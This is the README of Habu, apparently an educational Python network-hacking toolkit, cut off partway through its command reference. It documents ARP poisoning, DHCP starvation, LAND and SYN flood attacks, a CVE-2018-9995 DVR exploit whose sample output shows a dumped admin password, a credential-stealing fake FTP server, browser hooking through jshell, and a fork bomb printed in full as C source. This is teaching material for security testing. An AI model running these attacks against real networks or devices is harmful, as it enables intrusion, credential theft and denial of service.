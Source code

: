 
Habu: Python Network Hacking Toolkit
====================================


.. image:: logo.jpeg
   :target: logo.jpeg
   :alt: image


I'm developing Habu to teach (and learn) some concepts about Python and
Network Hacking.

These are basic functions that help with some tasks for Ethical Hacking
and Penetration Testing.

Most of them are related with networking, and the implementations are
intended to be understandable for who wants to read the source code and
learn from that.

Some techniques implemented in the current version are:


* ARP Poisoning
* ARP Sniffing
* DHCP Discover
* DHCP Starvation
* Fake FTP Server
* LAND Attack
* SNMP Cracking
* Subdomains Identification
* SSL/TLS Certificate Cloner
* SYN Flooding
* TCP Flags Analysis
* TCP ISN Analysis
* TCP Port Scan
* Username check on social networks
* Virtual Hosts Identification
* Web Techonologies Identification

Usage Videos
------------

The following Youtube Playlist has videos that shows the installation
and usage:

https://www.youtube.com/watch?v=rgp9seLLyqE&list=PL4HZnX8VnFXqSvNw7x-bXOn0dgxNdfnVD

Telegram Group
--------------

If you want to discuss some Habu features, possible improvements, etc,
you can use the Habu Telegram Group: https://t.me/python_habu

Issues and pull requests must be sent to github repo:
https://github.com/portantier/habu

Installation
------------

**Kali Linux:**

You can install the package created for Kali Linux. See
https://github.com/portantier/habu/releases

**Python Package (PyPi):**

Habu is on PyPi, so you can install it directly with pip:

.. code-block::

   $ pip3 install habu

Dependencies
------------

Habu requires Python3 and the following packages:


* beautifulsoup4
* click
* cryptography
* dnspython
* lxml
* prompt_toolkit
* pygments
* regex
* requests
* requests-cache
* scapy-python3
* websockets
* matplotlib (Optional, only needed if you want to make some graphs)

Get Help
--------

All the commands implement the option '--help', that shows the help,
arguments, options, and default values.

Verbose Mode
------------

Almost all commands implement the verbose mode with the '-v' option.
This can give you some extra info about what habu is doing.

Commands Index
--------------


* `arp.ping <#habuarpping>`_
* `arp.poison <#habuarppoison>`_
* `arp.sniff <#habuarpsniff>`_
* `asydns <#habuasydns>`_
* `b64 <#habub64>`_
* `certclone <#habucertclone>`_
* `config.del <#habuconfigdel>`_
* `config <#habuconfig>`_
* `config.set <#habuconfigset>`_
* `contest <#habucontest>`_
* `crack.luhn <#habucrackluhn>`_
* `crack.snmp <#habucracksnmp>`_
* `crtsh <#habucrtsh>`_
* `cve.2018.9995 <#habucve20189995>`_
* `cymon.ip <#habucymonip>`_
* `cymon.ip.timeline <#habucymoniptimeline>`_
* `dhcp.discover <#habudhcpdiscover>`_
* `dhcp.starvation <#habudhcpstarvation>`_
* `eicar <#habueicar>`_
* `extract.email <#habuextractemail>`_
* `extract.hostname <#habuextracthostname>`_
* `extract.ipv4 <#habuextractipv4>`_
* `fernet.genkey <#habufernetgenkey>`_
* `fernet <#habufernet>`_
* `forkbomb <#habuforkbomb>`_
* `gateway.find <#habugatewayfind>`_
* `hasher <#habuhasher>`_
* `ip2asn <#habuip2asn>`_
* `ip <#habuip>`_
* `isn <#habuisn>`_
* `jshell <#habujshell>`_
* `karma.bulk <#habukarmabulk>`_
* `karma <#habukarma>`_
* `land <#habuland>`_
* `nc <#habunc>`_
* `nmap.open <#habunmapopen>`_
* `nmap.ports <#habunmapports>`_
* `ping <#habuping>`_
* `protoscan <#habuprotoscan>`_
* `server.ftp <#habuserverftp>`_
* `shodan.open <#habushodanopen>`_
* `shodan <#habushodan>`_
* `synflood <#habusynflood>`_
* `tcpflags <#habutcpflags>`_
* `tcpscan <#habutcpscan>`_
* `traceroute <#habutraceroute>`_
* `usercheck <#habuusercheck>`_
* `vhosts <#habuvhosts>`_
* `virustotal <#habuvirustotal>`_
* `webid <#habuwebid>`_
* `web.report <#habuwebreport>`_
* `web.screenshot <#habuwebscreenshot>`_
* `whois.domain <#habuwhoisdomain>`_
* `whois.ip <#habuwhoisip>`_
* `xor <#habuxor>`_

habu.arp.ping
-------------

.. code-block::

   Usage: habu.arp.ping [OPTIONS] IP

     Send ARP packets to check if a host it's alive in the local network.

     Example:

     # habu.arping 192.168.0.1
     Ether / ARP is at a4:08:f5:19:17:a4 says 192.168.0.1 / Padding

   Options:
     -i TEXT  Interface to use
     -v       Verbose output
     --help   Show this message and exit.

habu.arp.poison
---------------

.. code-block::

   Usage: habu.arp.poison [OPTIONS] VICTIM1 VICTIM2

     Send ARP 'is-at' packets to each victim, poisoning their ARP tables for
     send the traffic to your system.

     Note: If you want a full working Man In The Middle attack, you need to
     enable the packet forwarding on your operating system to act like a
     router. You can do that using:

     # echo 1 > /proc/sys/net/ipv4/ip_forward

     Example:

     # habu.arpoison 192.168.0.1 192.168.0.77
     Ether / ARP is at f4:96:34:e5:ae:1b says 192.168.0.77
     Ether / ARP is at f4:96:34:e5:ae:1b says 192.168.0.70
     Ether / ARP is at f4:96:34:e5:ae:1b says 192.168.0.77
     ...

   Options:
     -i TEXT  Interface to use
     -v       Verbose
     --help   Show this message and exit.

habu.arp.sniff
--------------

.. code-block::

   Usage: habu.arp.sniff [OPTIONS]

     Listen for ARP packets and show information for each device.

     Columns: Seconds from last packet | IP | MAC | Vendor

     Example:

     1   192.168.0.1     a4:08:f5:19:17:a4   Sagemcom Broadband SAS
     7   192.168.0.2     64:bc:0c:33:e5:57   LG Electronics (Mobile Communications)
     2   192.168.0.5     00:c2:c6:30:2c:58   Intel Corporate
     6   192.168.0.7     54:f2:01:db:35:58   Samsung Electronics Co.,Ltd

   Options:
     -i TEXT  Interface to use
     --help   Show this message and exit.

habu.asydns
-----------

.. code-block::

   Usage: habu.asydns [OPTIONS]

     Requests a DNS domain name based on public and private RSA keys using the
     AsyDNS protocol https://github.com/portantier/asydns

     Example:

     $ habu.asydns -v
     Generating RSA key ...
     Loading RSA key ...
     {
         "ip": "181.31.41.231",
         "name": "07286e90fd6e7e6be61d6a7919967c7cf3bbfb23a36edbc72b6d7c53.a.asydns.org"
     }

     $ dig +short 07286e90fd6e7e6be61d6a7919967c7cf3bbfb23a36edbc72b6d7c53.a.asydns.org
     181.31.41.231

   Options:
     -u TEXT  API URL
     -g       Force the generation of a new key pair
     -r       Revoke the public key
     -v       Verbose output
     --help   Show this message and exit.

habu.b64
--------

.. code-block::

   Usage: habu.b64 [OPTIONS] [F]

     Encodes or decode data in base64, just like the command base64.

     $ echo awesome | habu.b64
     YXdlc29tZQo=

     $ echo YXdlc29tZQo= | habu.b64 -d
     awesome

   Options:
     -d      decode instead of encode
     --help  Show this message and exit.

habu.certclone
--------------

.. code-block::

   Usage: habu.certclone [OPTIONS] HOSTNAME PORT KEYFILE CERTFILE

     Connect to an SSL/TLS server, get the certificate and generate a
     certificate with the same options and field values.

     Note: The generated certificate is invalid, but can be used for social
     engineering attacks

     Example:

     $ habu.certclone www.google.com 443 /tmp/key.pem /tmp/cert.pem

   Options:
     --copy-extensions  Copy certificate extensions (default: False)
     --expired          Generate an expired certificate (default: False)
     -v                 Verbose
     --help             Show this message and exit.

habu.config.del
---------------

.. code-block::

   Usage: habu.config.del [OPTIONS] KEY

     Delete a KEY from the configuration.

     Note: By default, KEY is converted to uppercase.

     Example:

     $ habu.config.del DNS_SERVER

   Options:
     --help  Show this message and exit.

habu.config
-----------

.. code-block::

   Usage: habu.config [OPTIONS]

     Show the current config.

     Note: By default, the options with 'KEY' in their name are shadowed.

     Example:

     $ habu.config
     {
         "DNS_SERVER": "8.8.8.8",
         "FERNET_KEY": "*************"
     }

   Options:
     --show-keys       Show also the key values
     --option TEXT...  Write to the config(KEY VALUE)
     --help            Show this message and exit.

habu.config.set
---------------

.. code-block::

   Usage: habu.config.set [OPTIONS] KEY VALUE

     Set VALUE to the config KEY.

     Note: By default, KEY is converted to uppercase.

     Example:

     $ habu.config.set DNS_SERVER 8.8.8.8

   Options:
     --help  Show this message and exit.

habu.contest
------------

.. code-block::

   Usage: habu.contest [OPTIONS]

     Try to connect to various services and check if can reach them using your
     internet connection.

     Example:

     $ habu.contest
     IP:    True
     DNS:   True
     FTP:   True
     SSH:   True
     HTTP:  True
     HTTPS: True

   Options:
     --help  Show this message and exit.

habu.crack.luhn
---------------

.. code-block::

   Usage: habu.crack.luhn [OPTIONS] NUMBER

     Having known values for a Luhn validated number, obtain the possible
     unknown numbers.

     Numbers that use the Luhn algorithm for validation are Credit Cards, IMEI,
     National Provider Identifier in the United States, Canadian Social
     Insurance Numbers, Israel ID Numbers and Greek Social Security Numbers
     (ΑΜΚΑ).

     The '-' characters are ignored.

     Define the missing numbers with the 'x' character.

     Reference: https://en.wikipedia.org/wiki/Luhn_algorithm

     Example:

     $ habu.crack.luhn 4509-xxxx-3160-6445

   Options:
     --help  Show this message and exit.

habu.crack.snmp
---------------

.. code-block::

   Usage: habu.crack.snmp [OPTIONS] IP

     Launches snmp-get queries against an IP, and tells you when finds a valid
     community string (is a simple SNMP cracker).

     The dictionary used is the distributed with the onesixtyone tool
     https://github.com/trailofbits/onesixtyone

     Example:

     # habu.crack.snmp 179.125.234.210
     Community found: private
     Community found: public

     Note: You can also receive messages like \<UNIVERSAL\> \<class
     'scapy.asn1.asn1.ASN1\_Class\_metaclass'\>, I don't know how to supress
     them for now.

   Options:
     -p INTEGER  Port to use
     -s          Stop after first match
     -v          Verbose
     --help      Show this message and exit.

habu.crtsh
----------

.. code-block::

   Usage: habu.crtsh [OPTIONS] DOMAIN

     Downloads the certificate transparency logs for a domain and check with
     DNS queries if each subdomain exists.

     Uses multithreading to improve the performance of the DNS queries.

     Example:

     $ sudo habu.crtsh securetia.com
     [
         "karma.securetia.com.",
         "www.securetia.com."
     ]

   Options:
     -c      Disable cache
     -n      Disable DNS subdomain validation
     -v      Verbose output
     --help  Show this message and exit.

habu.cve.2018.9995
------------------

.. code-block::

   Usage: habu.cve.2018.9995 [OPTIONS] IP

     Exploit the CVE-2018-9995 vulnerability, present on various DVR systems.

     Note: Based on the original code from Ezequiel Fernandez (@capitan_alfa).

     Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-9995

     Example:

     $ python habu.cve.2018-9995 82.202.102.42
     [
         {
             "uid": "admin",
             "pwd": "securepassword",
             "role": 2,
             "enmac": 0,
             "mac": "00:00:00:00:00:00",
             "playback": 4294967295,
             "view": 4294967295,
             "rview": 4294967295,
             "ptz": 4294967295,
             "backup": 4294967295,
             "opt": 4294967295
         }
     ]

   Options:
     -p INTEGER  Port to use (default: 80)
     -v          Verbose
     --help      Show this message and exit.

habu.cymon.ip
-------------

.. code-block::

   Usage: habu.cymon.ip [OPTIONS] IP

     Simple cymon API client.

     Prints the JSON result of a cymon IP query.

     Example:

     $ habu.cymon.ip 8.8.8.8
     {
         "addr": "8.8.8.8",
         "created": "2015-03-23T12:03:42Z",
         "updated": "2018-08-24T04:06:07Z",
         "sources": [
             "safeweb.norton.com",
             "botscout.com",
             "virustotal.com",
             "phishtank"
         ],
         "events": "https://www.cymon.io/api/nexus/v1/ip/8.8.8.8/events",
         "domains": "https://www.cymon.io/api/nexus/v1/ip/8.8.8.8/domains",
         "urls": "https://www.cymon.io/api/nexus/v1/ip/8.8.8.8/urls"
     }

   Options:
     -c           Disable cache
     -v           Verbose output
     -o FILENAME  Output file (default: stdout)
     --help       Show this message and exit.

habu.cymon.ip.timeline
----------------------

.. code-block::

   Usage: habu.cymon.ip.timeline [OPTIONS] IP

     Simple cymon API client.

     Prints the JSON result of a cymon IP timeline query.

     Example:

     $ habu.cymon.ip.timeline 8.8.8.8
     {
         "timeline": [
             {
                 "time_label": "Aug. 18, 2018",
                 "events": [
                     {
                         "description": "Posted: 2018-08-18 23:37:39 CEST IDS Alerts: 0 URLQuery Alerts: 1 ...",
                         "created": "2018-08-18T21:39:07Z",
                         "title": "Malicious activity reported by urlquery.net",
                         "details_url": "http://urlquery.net/report/b1393866-9b1f-4a8e-b02b-9636989050f3",
                         "tag": "malicious activity"
                     }
                 ]
             },
             ...

   Options:
     -c           Disable cache
     -v           Verbose output
     -o FILENAME  Output file (default: stdout)
     -p           Pretty output
     --help       Show this message and exit.

habu.dhcp.discover
------------------

.. code-block::

   Usage: habu.dhcp.discover [OPTIONS]

     Send a DHCP request and show what devices has replied.

     Note: Using '-v' you can see all the options (like DNS servers) included
     on the responses.

     # habu.dhcp_discover
     Ether / IP / UDP 192.168.0.1:bootps > 192.168.0.5:bootpc / BOOTP / DHCP

   Options:
     -i TEXT     Interface to use
     -t INTEGER  Time (seconds) to wait for responses
     -v          Verbose output
     --help      Show this message and exit.

habu.dhcp.starvation
--------------------

.. code-block::

   Usage: habu.dhcp.starvation [OPTIONS]

     Send multiple DHCP requests from forged MAC addresses to fill the DHCP
     server leases.

     When all the available network addresses are assigned, the DHCP server
     don't send responses.

     So, some attacks, like DHCP spoofing, can be made.

     # habu.dhcp_starvation
     Ether / IP / UDP 192.168.0.1:bootps > 192.168.0.6:bootpc / BOOTP / DHCP
     Ether / IP / UDP 192.168.0.1:bootps > 192.168.0.7:bootpc / BOOTP / DHCP
     Ether / IP / UDP 192.168.0.1:bootps > 192.168.0.8:bootpc / BOOTP / DHCP

   Options:
     -i TEXT     Interface to use
     -t INTEGER  Time (seconds) to wait for responses
     -s INTEGER  Time (seconds) between requests
     -v          Verbose output
     --help      Show this message and exit.

habu.eicar
----------

.. code-block::

   Usage: habu.eicar [OPTIONS]

     Print the EICAR test string that can be used to test antimalware engines.

     More info: http://www.eicar.org/86-0-Intended-use.html

     Example:

     $ habu.eicar
     X5O!P%@AP[4\XZP54(P^)7CC)7}$EICAR-STANDARD-ANTIVIRUS-TEST-FILE!$H+H*

   Options:
     --help  Show this message and exit.

habu.extract.email
------------------

.. code-block::

   Usage: habu.extract.email [OPTIONS] [INFILE]

     Extract email addresses from a file or stdin.

     Example:

     $ cat /var/log/auth.log | habu.extract.email
     john@securetia.com
     raven@acmecorp.net
     nmarks@fimax.com

   Options:
     -v      Verbose output
     -j      JSON output
     --help  Show this message and exit.

habu.extract.hostname
---------------------

.. code-block::

   Usage: habu.extract.hostname [OPTIONS] [INFILE]

     Extract hostnames from a file or stdin.

     Example:

     $ cat /var/log/some.log | habu.extract.hostname
     www.google.com
     ibm.com
     fileserver.redhat.com

   Options:
     -c      Check if hostname resolves
     -v      Verbose output
     -j      JSON output
     --help  Show this message and exit.

habu.extract.ipv4
-----------------

.. code-block::

   Usage: habu.extract.ipv4 [OPTIONS] [INFILE]

     Extract IPv4 addresses from a file or stdin.

     Example:

     $ cat /var/log/auth.log | habu.extract.ipv4
     172.217.162.4
     23.52.213.96
     190.210.43.70

   Options:
     --json  JSON output
     -v      Verbose output
     --help  Show this message and exit.

habu.fernet.genkey
------------------

.. code-block::

   Usage: habu.fernet.genkey [OPTIONS]

     Generate a new Fernet Key, optionally write it to ~/.habu.json

     Example:

     $ habu.fernet.genkey
     xgvWCIvjwe9Uq7NBvwO796iI4dsGD623QOT9GWqnuhg=

   Options:
     -w      Write this key to ~/.habu.json
     --help  Show this message and exit.

habu.fernet
-----------

.. code-block::

   Usage: habu.fernet [OPTIONS]

     Fernet cipher.

     Uses AES-128-CBC with HMAC

     Note: You must use a key to cipher with Fernet.

     Use the -k paramenter or set the FERNET_KEY configuration value.

     The keys can be generated with the command habu.fernet.genkey

     Reference: https://github.com/fernet/spec/blob/master/Spec.md

     Example:

     $ "I want to protect this string" | habu.fernet
     gAAAAABbXnCGoCULLuVNRElYTbEcwnek9iq5jBKq9JAN3wiiBUzPqpUgV5oWvnC6xfIA...

     $ echo gAAAAABbXnCGoCULLuVNRElYTbEcwnek9iq5jBKq9JAN3wiiBUzPqpUgV5oWvnC6xfIA... | habu.fernet -d
     I want to protect this string

   Options:
     -k TEXT        Key
     -d             Decrypt instead of encrypt
     --ttl INTEGER  Time To Live for timestamp verification
     -i FILENAME    Input file (default: stdin)
     -o FILENAME    Output file (default: stdout)
     --help         Show this message and exit.

habu.forkbomb
-------------

.. code-block::

   Usage: habu.forkbomb [OPTIONS] [bash|batch|c|haskell|perl|php|python|ruby]

     A shortcut to remember how to use fork bombs in different languages.

     Currently supported: bash, batch, c, haskell, perl, php, python, ruby.

     Example:

     $ habu.forkbomb c
     #include <unistd.h>
     int main()
     {
         while(1)
         {
             fork();
         }
         return 0;
     }

   Options:
     --help  Show this message and exit.

habu.gateway.find
-----------------

.. code-block::

   Usage: habu.gateway.find [OPTIONS] NETWORK

     Try to reach an external IP using any host has a router.

     Useful to find routers in your network.

     First, uses arping to detect alive hosts and obtain MAC addresses.

     Later, create a network packet and put each MAC address as destination.

     Last, print the devices that forwarded correctly the packets.

     Example:

     # habu.find.gateway 192.168.0.0/24
     192.168.0.1 a4:08:f5:19:17:a4 Sagemcom
     192.168.0.7 b0:98:2b:5d:22:70 Sagemcom
     192.168.0.8 b0:98:2b:5d:1f:e8 Sagemcom

   Options:
     -i TEXT                Interface to use
     --host TEXT            Host to reach (default: 8.8.8.8)
     --tcp                  Use TCP instead of ICMP
     --dport INTEGER RANGE  Destination port for TCP (default: 80)
     --timeout INTEGER      Timeout in seconds (default: 5)
     -v                     Verbose output
     --help                 Show this message and exit.

habu.hasher
-----------

.. code-block::

   Usage: habu.hasher [OPTIONS] [F]

     Computes various hashes for the input data, that can be a file or a
     stream.

     Example:

     $ habu.hasher README.rst
     md5          e5828c564f71fea3a12dde8bd5d27063 README.rst
     ripemd160    ef6886c3b68cb34a44f9ca9336f3cd0732600a84 README.rst
     sha1         7bae8076a5771865123be7112468b79e9d78a640 README.rst
     sha512       65cfb1cf719b851b4aea5a7f5388068687b1fdfd290817a... README.rst
     whirlpool    eaccf718b31d8a01f76fc08e896a6d0d73dbeafc2621fe0... README.rst

     You can also specify which algorithm to use. In such case, the output is
     only the value of the calculated hash:

     $ habu.hasher -a md5 README.rst
     e5828c564f71fea3a12dde8bd5d27063 README.rst

   Options:
     -a [md5|sha1|sha256|sha512|ripemd160|whirlpool]
                                     Only this algorithm (Default: all)
     --help                          Show this message and exit.

habu.ip2asn
-----------

.. code-block::

   Usage: habu.ip2asn [OPTIONS] IP

     Use Team Cymru ip2asn service to get information about a public IPv4/IPv6.

     Reference: https://www.team-cymru.com/IP-ASN-mapping.html

     $ habu.ip2asn 8.8.8.8
     {
         "asn": "15169",
         "net": "8.8.8.0/24",
         "cc": "US",
         "rir": "ARIN",
         "asname": "GOOGLE - Google LLC, US",
         "country": "United States"
     }

   Options:
     --help  Show this message and exit.

habu.ip
-------

.. code-block::

   Usage: habu.ip [OPTIONS]

     Print your current public IP based on the response from
     https://api.ipify.org

     Example:

     $ habu.ip
     182.26.32.246

   Options:
     --help  Show this message and exit.

habu.isn
--------

.. code-block::

   Usage: habu.isn [OPTIONS] IP

     Create TCP connections and print the TCP initial sequence numbers for each
     one.

     $ sudo habu.isn -c 5 www.portantier.com
     1962287220
     1800895007
     589617930
     3393793979
     469428558

     Note: You can get a graphical representation (needs the matplotlib
     package) using the '-g' option to better understand the randomness.

   Options:
     -p INTEGER  Port to use (default: 80)
     -c INTEGER  How many packets to send/receive (default: 5)
     -i TEXT     Interface to use
     -g          Graph (requires matplotlib)
     -v          Verbose output
     --help      Show this message and exit.

habu.jshell
-----------

.. code-block::

   Usage: habu.jshell [OPTIONS]

     Control a web browser through Websockets.

     Bind a port (default: 3333) and listen for HTTP connections.

     On connection, send a JavaScript code that opens a WebSocket that can be
     used to send commands to the connected browser.

     You can write the commands directly in the shell, or use plugins, that are
     simply external JavaScript files.

     Using habu.jshell you can completely control a web browser.

     Reference: https://developer.mozilla.org/en-US/docs/Web/API/WebSockets_API

     Example:

     $ habu.jshell
     >> Listening on 192.168.0.10:3333. Waiting for a victim connection.
     >> HTTP Request received from 192.168.0.15. Sending hookjs
     >> Connection from 192.168.0.15
     $ _sessions
     0 * 192.168.0.15:33432 Mozilla/5.0 (X11; Linux x86_64; rv:57.0) Gecko/20100101 Firefox/57.0
     $ _info
     {
         "user-agent": "Mozilla/5.0 (X11; Linux x86_64; rv:57.0) Gecko/20100101 Firefox/57.0",
         "location": "http://192.168.0.10:3333/",
         "java-enabled": false,
         "platform": "Linux x86_64",
         "app-code-name": "Mozilla",
         "app-name": "Netscape",
         "app-version": "5.0 (X11)",
         "cookie-enabled": true,
         "language": "es-AR",
         "online": true
     }
     $ document.location
     http://192.168.0.10:3333/

   Options:
     -v          Verbose
     -i TEXT     IP to listen on
     -p INTEGER  Port to listen on
     --help      Show this message and exit.

habu.karma.bulk
---------------

.. code-block::

   Usage: habu.karma.bulk [OPTIONS] [INFILE]

     Show which IP addresses are inside blacklists using the Karma online
     service.

     Example:

     $ cat /var/log/auth.log | habu.extract.ipv4 | habu.karma.bulk
     172.217.162.4   spamhaus_drop,alienvault_spamming
     23.52.213.96    CLEAN
     190.210.43.70   alienvault_malicious

   Options:
     --json  JSON output
     --bad   Show only entries in blacklists
     -v      Verbose output
     --help  Show this message and exit.

habu.karma
----------

.. code-block::

   Usage: habu.karma [OPTIONS] HOST

     Use the Karma service https://karma.securetia.com to check an IP against
     various Threat Intelligence / Reputation lists.

     $ habu.karma www.google.com
     www.google.com -> 64.233.190.99
     [
         "hphosts_fsa",
         "hphosts_psh",
         "hphosts_emd"
     ]

     Note: You can use the hostname or the IP of the host to query.

   Options:
     --help  Show this message and exit.

habu.land
---------

.. code-block::

   Usage: habu.land [OPTIONS] IP

     This command implements the LAND attack, that sends packets forging the
     source IP address to be the same that the destination IP. Also uses the
     same source and destination port.

     The attack is very old, and can be used to make a Denial of Service on old
     systems, like Windows NT 4.0. More information here:
     https://en.wikipedia.org/wiki/LAND

     # sudo habu.land 172.16.0.10
     ............

     Note: Each dot (.) is a sent packet. You can specify how many packets send
     with the '-c' option. The default is never stop. Also, you can specify the
     destination port, with the '-p' option.

   Options:
     -c INTEGER  How many packets send (default: infinit)
     -p INTEGER  Port to use (default: 135)
     -i TEXT     Interface to use
     -v          Verbose
     --help      Show this message and exit.

habu.nc
-------

.. code-block::

   Usage: habu.nc [OPTIONS] HOST PORT

     Some kind of netcat/ncat replacement.

     The execution emulates the feeling of this popular tools.

     Example:

     $ habu.nc --crlf www.portantier.com 80
     Connected to 45.77.113.133 80
     HEAD / HTTP/1.0

     HTTP/1.0 301 Moved Permanently
     Date: Thu, 26 Jul 2018 21:10:51 GMT
     Server: OpenBSD httpd
     Connection: close
     Content-Type: text/html
     Content-Length: 443
     Location: https://www.portantier.com/

   Options:
     --family [4|6|46]            IP Address Family
     --ssl                        Enable SSL
     --crlf                       Use CRLF for EOL sequence
     --protocol [tcp|udp]         Layer 4 protocol to use
     --source-ip TEXT             Source IP to use
     --source-port INTEGER RANGE  Source port to use
     --help                       Show this message and exit.

habu.nmap.open
--------------

.. code-block::

   Usage: habu.nmap.open [OPTIONS] SCANFILE

     Read an nmap report and print the open ports.

     Print the ports that has been resulted open reading the generated nmap
     output.

     You can use it to rapidly reutilize the port list for the input of other
     tools.

     Supports and detects the 3 output formats (nmap, gnmap and xml)

     Example:

     # habu.nmap.open portantier.nmap
     22,80,443

   Options:
     -p [tcp|udp|sctp]  The protocol (default=tcp)
     --help             Show this message and exit.

habu.nmap.ports
---------------

.. code-block::

   Usage: habu.nmap.ports [OPTIONS] SCANFILE

     Read an nmap report and print the tested ports.

     Print the ports that has been tested reading the generated nmap output.

     You can use it to rapidly reutilize the port list for the input of other
     tools.

     Supports and detects the 3 output formats (nmap, gnmap and xml)

     Example:

     # habu.nmap.ports portantier.nmap
     21,22,23,80,443

   Options:
     -p [tcp|udp|sctp]  The protocol (default=tcp)
     --help             Show this message and exit.

habu.ping
---------

.. code-block::

   Usage: habu.ping [OPTIONS] IP

     The classic ping tool that send ICMP echo requests.

     # habu.ping 8.8.8.8
     IP / ICMP 8.8.8.8 > 192.168.0.5 echo-reply 0 / Padding
     IP / ICMP 8.8.8.8 > 192.168.0.5 echo-reply 0 / Padding
     IP / ICMP 8.8.8.8 > 192.168.0.5 echo-reply 0 / Padding
     IP / ICMP 8.8.8.8 > 192.168.0.5 echo-reply 0 / Padding

   Options:
     -i TEXT     Wich interface to use (default: auto)
     -c INTEGER  How many packets send (default: infinit)
     -t INTEGER  Timeout in seconds (default: 2)
     -w INTEGER  How many seconds between packets (default: 1)
     -v          Verbose
     --help      Show this message and exit.

habu.protoscan
--------------

.. code-block::

   Usage: habu.protoscan [OPTIONS] IP

     Send IP packets with different protocol field content to guess what layer
     4 protocols are available.

     The output shows which protocols doesn't generate a 'protocol-unreachable'
     ICMP response.

     Example:

     $ sudo python cmd_ipscan.py 45.77.113.133
     1   icmp
     2   igmp
     4   ipencap
     6   tcp
     17  udp
     41  ipv6
     47  gre
     50  esp
     51  ah
     58  ipv6_icmp
     97  etherip
     112 vrrp
     115 l2tp
     132 sctp
     137 mpls_in_ip

   Options:
     -i TEXT     Interface to use
     -t INTEGER  Timeout for each probe (default: 2 seconds)
     --all       Probe all protocols (default: Defined in /etc/protocols)
     -v          Verbose output
     --help      Show this message and exit.

habu.server.ftp
---------------

.. code-block::

   Usage: habu.server.ftp [OPTIONS]

     Basic fake FTP server, whith the only purpose to steal user credentials.

     Supports SSL/TLS.

     Example:

     # sudo habu.server.ftp --ssl --ssl-cert /tmp/cert.pem --ssl-key /tmp/key.pem
     Listening on port 21
     Accepted connection from ('192.168.0.27', 56832)
     Credentials collected from 192.168.0.27! fabian 123456

   Options:
     -a TEXT          Address to bind (default: all)
     -p INTEGER       Which port to use (default: 21)
     --ssl            Enable SSL/TLS (default: False)
     --ssl-cert TEXT  SSL/TLS Cert file
     --ssl-key TEXT   SSL/TLS Key file
     -v               Verbose
     --help           Show this message and exit.

habu.shodan.open
----------------

.. code-block::

   Usage: habu.shodan.open [OPTIONS] IP

     Output the open ports for an IP against shodan (nmap format).

     Example:

     $ habu.shodan.open 8.8.8.8
     T:53,U:53

   Options:
     -c           Disable cache
     -j           Output in JSON format
     -x           Output an nmap command to scan open ports
     -v           Verbose output
     -o FILENAME  Output file (default: stdout)
     --help       Show this message and exit.

habu.shodan
-----------

.. code-block::

   Usage: habu.shodan [OPTIONS] IP

     Simple shodan API client.

     Prints the JSON result of a shodan query.

     Example:

     $ habu.shodan 8.8.8.8
     {
         "hostnames": [
             "google-public-dns-a.google.com"
         ],
         "country_code": "US",
         "org": "Google",
         "data": [
             {
                 "isp": "Google",
                 "transport": "udp",
                 "data": "Recursion: enabled",
                 "asn": "AS15169",
                 "port": 53,
                 "hostnames": [
                     "google-public-dns-a.google.com"
